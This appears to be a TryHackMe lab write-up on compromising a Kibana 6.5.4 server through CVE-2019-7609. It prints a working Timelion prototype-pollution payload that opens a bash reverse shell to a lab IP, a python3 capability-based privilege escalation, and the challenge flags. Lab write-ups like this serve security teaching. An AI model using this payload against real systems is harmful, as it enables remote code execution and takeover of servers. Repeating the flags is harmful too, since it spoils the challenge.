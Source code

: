 
# kibana

If we try to access kibana through browser by IP address, we won't get direct access. It will display this page :

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/0fa7feb7-4810-44fd-aa97-1530bbab484f)

So through http port we can't get access of kibana. Thus, we will look for open ports of provided IP.

Initiate nmap scan to the provided IP.

`sudo nmap -p- 10.10.174.118`

As we can see the open ports through nmap scan, `5601/tcp` is the `esmagent` of Enterprise Service Management.

Give `<ip>:port` to access kibana. (`10.10.174.118:5601`)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7a3aab02-518c-4720-8b2f-4c21bc3bb4fb)

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

    Prototype Pollution
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### What is the version of visualization dashboard installed in the server?

    Ver 6.5.4
    
    In Kibana, go to Management tab 
    
    There we can see the Version : 6.5.4 mentioned.
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1b1b4e75-ccb3-4044-b392-7ee831cad2fe)


### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

    CVE-2019-7609
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### Compromise the machine and locate user.txt

        THM{1s_easy_pwn3d_k1bana_w1th_rce}
        
Copy this payload

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i >& /dev/tcp/10.9.19.3/4444                      0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

* Open `Timelion` in kibana and paste the payload in the provided box.
* Start a netcat listener

![03](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f29fb475-b117-49b8-8935-655069cd21b0)

* Go to Canvas tab, we will get the response from reverse shell and we'll redirected to kiba directories.

![05](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/5a186195-a9a6-49bd-9959-75d39d9a0a3d)

### How would you recursively list all of these capabilities?

* By using command `getcap -r/`

![07](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f19f99be-1e64-4d4b-9e46-f083a7edd1ee)


![08](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/369f7e22-497f-463e-b95d-03b3b87e09e3)

### Escalate privileges and obtain root.txt

* Traverse to ./hackmeplease/ directory
        
* Give command  `./python3 -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`

        THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/d5f6f110-18c1-4147-872e-9cb106ea4c62)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/794d592b-9799-405f-b3dd-600ba5827818)
